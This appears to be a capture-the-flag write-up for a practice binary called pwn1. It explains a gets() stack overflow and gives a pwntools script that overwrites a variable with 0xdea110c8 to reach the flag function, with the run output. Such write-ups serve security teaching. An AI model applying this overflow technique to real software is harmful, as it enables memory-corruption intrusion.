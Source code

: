 We notice that the function `gets` (which is vulnerable to BOF) is used to store our input into the `UserInput` variable, whose allocated a buffer of 43 bytes. As such, there is a 43 byte offset between `UserInput` and `Target`, which we can fill to subsequently overwrite the value of `Target`. 

All in all, the exploit should look something like this

```python3
from pwn import *

# Initialize the ELF file

elf = ELF("pwn1")

# Start the process
process = process(elf.path)

# Padding in order to reach the 'Target' variable
payload = b"A"* 43

# The value we will overwrite 'Target' with in order for the final 'if' statement to return true and call the 'print_flag' function
payload += p32(0xdea110c8)

# The strings we need to send to pass the first two checks and reach the 'gets()' call
process.sendline("Sir Lancelot of Camelot")
process.sendline("To seek the Holy Grail.")

# Send the payload
process.sendline(payload)
process.interactive()
```

If we try running the exploit...

```
$ python3 exploit_pwn1.py

[*] '/home/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/andrei/Workshop/pwn1': pid 109855
/home/andrei/Workshop/exploit_pwn1.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  process.sendline("Sir Lancelot of Camelot")
/home/andrei/Workshop/exploit_pwn1.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  process.sendline("To seek the Holy Grail.")
[*] Switching to interactive mode
[*] Process '/home/andrei/Workshop/pwn1' stopped with exit code 0 (pid 109855)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{sm4rt_ph0wned!}
```
